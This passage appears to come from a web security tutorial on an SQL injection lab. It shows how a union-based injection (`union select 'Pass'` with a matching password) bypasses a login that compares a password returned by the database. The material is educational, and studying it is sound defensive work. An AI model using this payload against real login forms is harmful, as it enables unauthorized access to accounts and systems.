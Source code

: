We can see above, it doesn't returned any result, which means it might verify the password.

So, let's check the second scenario, we can bypass authentication using `Union-Based SQL Injection`.

### Union-Based SQL Injection

If the application checks password returned from user and compare it with the password in the database, the query will be the following:

```sql
select password from users where username='$user' and password='$pass';
-- then compare the password with the one in the database.
/* if (password == $row[password]) {
	header('Location: dashboard.php');
} */
....
```

Can we abuse the above query to be like this:
```sql
select password from users where username='attacker' union select 'Pass'
```

the returned value from the query is `Pass` because the first `select` statement doesn't return any result and the second `select` will return the value of it to be from the database.

The same here, we will enter invalid user and use `union select 'Pass'` to make the password returned from the database is `Pass` and the password we entered is the same to make the server redirect us to the dashboard/portal as the condition is true.`

```sql
select password from users where username='attacker' union select 'Pass' and password='Pass';
```

![Login_Bypass](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Bypass.png)

![Dahboard](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Dahboard.png)
